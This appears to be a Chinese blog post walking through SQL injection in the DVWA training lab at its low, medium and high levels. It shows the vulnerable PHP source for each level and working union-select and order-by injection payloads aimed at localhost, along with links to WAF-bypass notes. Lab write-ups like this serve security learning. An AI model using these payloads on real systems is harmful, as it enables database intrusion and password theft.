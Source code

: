 ```yaml
---
title: 代码审计之SQL
time: 2016.06.03 10:22:00
layout: post
tags:
- Securtiy
- SQL
catalog: true
excerpt: 通过DVWA学习SQL注入
    


---
```


# SQL injectin
## low
### 目标
窃取到admin的密码
### 源码
```
php
<?php 

if( isset( $_REQUEST[ 'Submit' ] ) ) { 
    // Get input 
    $id = $_REQUEST[ 'id' ]; 

    // Check database 
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 

    // Get results 
    $num = mysql_numrows( $result ); 
    $i   = 0; 
    while( $i < $num ) { 
        // Get values 
        $first = mysql_result( $result, $i, "first_name" ); 
        $last  = mysql_result( $result, $i, "last_name" ); 

        // Feedback for end user 
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 

        // Increase loop count 
        $i++; 
    } 

    mysql_close(); 
	} 

	?> 

```

$_REQUEST的官方说明如下：$_REQUEST — HTTP Request 变量默认情况下包含了 
$_GET，$_POST 和 $_COOKIE 的数组。

也就是说，再不关心是get过来的还是post，总之要取得某一个键的值，就用$_REQUEST就可以了。

不过$_REQUEST速度会比$_GET，$_POST稍慢点。 
### 过程
-  主要问题出现在这：$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";  这里的$id变量直接由 $id = $_REQUEST[ 'id' ];得到，没有进行任何过滤。
-  那么我们就可以通过输入恶意的字符串来进行sql注入。
-  首先，通过order by来确认表 http://localhost:8888/dvwa/vulnerabilities/sqli/?id=1' order by 2 -- &Submit=Submit
   拼接到代码内，$id就为 1' order by 2 --

   对应SQL语句就为 SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2 -- '
   order 3 失败 说明是2

-  然后，依次进行注入即可

   payload：http://localhost:8888/dvwa/vulnerabilities/sqli/?id=-1' union select 1,concat_ws(char(32,58,32),user(),database(),version()) -- &Submit=Submit

   32 表示空格 58为： 
   ![image](https://moxiaoxi.info/img/post/DVWA/1.png)
   load文件
   ![image](https://moxiaoxi.info/img/post/DVWA/2.png)
   获取帐户和密码
   ![image](https://moxiaoxi.info/img/post/DVWA/3.png)

## Medium
### 源码

	<?php

	if( isset( $_POST[ 'Submit' ] ) ) {
		// Get input
		$id = $_POST[ 'id' ];
		$id = mysql_real_escape_string( $id );
	
		// Check database
		$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
		$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
	
		// Get results
		$num = mysql_numrows( $result );
		$i   = 0;
		while( $i < $num ) {
	    	// Display values
	    	$first = mysql_result( $result, $i, "first_name" );
	    	$last  = mysql_result( $result, $i, "last_name" );
	
	    	// Feedback for end user
	    	echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	
	    	// Increase loop count
	    	$i++;
		}
	
		//mysql_close();
	}
	
	?>
### 	过程
- 这只是在low的基础上加了  $id = mysql_real_escape_string( $id );这个函数是转义sql语句中使用的字符串中的特殊字符(• \x00• \n• \r • \ • ' • " • \x1a)
- 我们仔细看发现，这里的id参数是直接引用的，并没有加任何的引号，所以get请求中id后面的所有内容，可以直接参与sql语句的构建。比如如果id的内容是id = 0 union select database(),user().那拼接到php代码中就是

  select first_name,last_name from users where user_id=0 union select database(),user()

- 然而，其是post提交的 所以，只需要输入如图payload即可
  ![image](https://moxiaoxi.info/img/post/DVWA/4.png)
  ![image](https://moxiaoxi.info/img/post/DVWA/5.png)

  绕过waf参考：

  [http://drops.wooyun.org/tips/968](http://drops.wooyun.org/tips/968)

  [http://drops.wooyun.org/tips/7883](http://drops.wooyun.org/tips/7883)

## High
### 源码
session：![image](https://moxiaoxi.info/img/post/DVWA/6.png)

	<?php

	if( isset( $_SESSION [ 'id' ] ) ) {
		// Get input
		$id = $_SESSION[ 'id' ];
	
		// Check database
		$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
		$result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );
	
		// Get results
		$num = mysql_numrows( $result );
		$i   = 0;
		while( $i < $num ) {
			// Get values
			$first = mysql_result( $result, $i, "first_name" );
			$last  = mysql_result( $result, $i, "last_name" );
	
			// Feedback for end user
			$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	
			// Increase loop count
			$i++;
		}
	
		mysql_close();
	}
	
	?>

### 过程

只需要在session界面注入即可

![image](https://moxiaoxi.info/img/post/DVWA/7.png)

![image](https://moxiaoxi.info/img/post/DVWA/8.png)

